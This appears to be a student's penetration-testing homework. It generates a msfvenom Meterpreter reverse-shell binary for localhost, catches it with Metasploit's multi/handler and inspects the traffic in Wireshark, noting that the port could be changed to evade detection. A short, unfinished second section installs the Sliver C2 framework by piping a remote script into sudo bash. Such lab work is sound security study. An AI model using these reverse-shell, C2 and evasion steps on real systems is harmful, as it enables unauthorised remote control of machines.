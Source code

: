 # Shells

## a. Snif venom

In this one I will try to use Wireshark to snif out a msfvenon reverse shell tcp malware on my local machine. 

To make things easier, I will disable any internet access so theres less stuff going on in Wireshark. Pinging localhost first to make sure we are listening to the right interface: 

<img src="h6.4.png" alt=img/>

Great, the pings are being listened to, now we can do our exploit. Also making sure we arent connected to the internet.

<img src="h6.1.png" alt=img/>

I will now start my msfconsole and run the msfvenom binary which I've created in my previous homework assignemnt h5 using 

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o reverse_shell.elf`

so I have the reverse.shell binary still and I will use it for this exercise. Let's open up msfconsole

<img src="h6.2.png" alt=img/>

`msfconsole`

`use exploit/multi/handler`

`set payload linux/x86/meterpreter/reverse_tcp`

`set LHOST localhost`

`set LPORT 4444`

<img src="h6.3.png" alt=img/>

Now on the other terminal we will run the binary of the msfvenon malware using `./reverse_shell.elf`

When we look at wireshark, we can immediately see a bunch of packets being sent over the IP of 127.0.0.1 on port 4444 and 37256

<img src="h6.5.png" alt=img/>

This kind of traffic would seem unusual because it's using port 4444 which is often associated with Metasploit and also it's a connection that's constantly listening with a lot of consistent traffic. That could indicate a reverse shell or some compromised service is listening.

We could mask this by switching to another more obscure or unknown port or even HTTP 80 port.



## b. Sliver HTTP

So in this one we want to make a sliver implant that communicates over HTTP.

First we need to install sliver using `curl https://sliver.sh/install|sudo bash`

Then we will start the sliver service `systemctl start sliver`

Now we will use sliver with `sliver`

<img src="h6.6.png" alt=img/>

References:

https://terokarvinen.com/tunkeutumistestaus/

https://osqa-ask.wireshark.org/questions/20423/pshack-wireshark-capture/#:~:text=The%20ACK%20indicates%20that%20a,also%20transmitting%20some%20more%20data.

https://seamlessintelligence.com.au/sliver_1.html

https://github.com/BishopFox/sliver/wiki/HTTP(S)-C2/2f6500892f78dbaae0bd4d41fc72e44aef6759ee



